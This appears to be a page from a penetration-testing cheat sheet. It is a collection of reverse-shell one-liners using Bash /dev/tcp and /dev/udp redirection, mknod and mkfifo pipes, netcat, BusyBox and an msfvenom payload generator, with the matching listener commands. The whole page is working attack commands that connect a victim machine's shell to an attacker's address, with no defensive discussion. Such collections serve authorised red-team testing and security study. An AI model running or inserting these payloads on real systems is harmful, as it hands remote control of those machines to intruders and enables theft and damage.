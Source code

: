 ```
# attacker:
nc -l -p 8080 -vvv

# victim:
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
exec 5<>/dev/tcp/[ip]/8080
cat <&5 | while read line; do $line 2>&5 >&5; done
0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

### <mark style="color:orange;">Bash UDP</mark>

```
Victim:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

Listener:
nc -u -lvp 4242
```

### <mark style="color:orange;">mknod Reverse Shell</mark>

```
nc -nvlp 6666 → attacker

mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc 192.168.56.1 6666 1> /tmp/backpipe → victim
```

## <mark style="color:red;">Netcat</mark>

```
msfvenom -p cmd/unix/reverse_netcat lhost=0.0.0.0 lport=9999 R → auto generate, can be perl or python instead of netcat

mkfifo /tmp/lnyzdr; nc 0.0.0.0 9999 0</tmp/lnyzdr | /bin/sh >/tmp/lnyzdr 2>&1; rm /tmp/lnyzdr  → host

rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

### <mark style="color:orange;">without -e option</mark>

for freeBSD version of netcat without -e (command execution) option:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 192.168.5.1 5555 >/tmp/f
```

## <mark style="color:red;">Busy Box</mark>

```
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```
